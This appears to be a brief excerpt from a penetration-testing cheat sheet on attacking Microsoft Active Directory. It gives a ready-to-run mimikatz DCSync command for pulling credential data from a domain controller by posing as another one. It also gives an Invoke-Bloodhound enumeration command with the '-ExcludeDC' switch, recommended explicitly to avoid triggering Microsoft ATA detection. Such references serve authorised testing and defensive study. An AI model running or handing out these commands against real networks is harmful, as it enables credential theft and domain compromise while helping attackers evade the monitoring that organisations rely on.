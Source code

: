 

Microsoft AD: DCSync
--------------------
Basically, tell a DC that you're another DC and get a bunch of its juicy data.

```
mimikatz "privilege::debug" "lsadump::dcsync /domain:<domain> /user:<user>
```



Microsoft AD: Bloodhound/Sharphound
------------------------------------------

Enumerate and view the AD environment. Use the `-ExcludeDC` switch (as in below example) to prevent triggering Microsoft ATA.

```
Invoke-Bloodhound -ExcludeDC
```





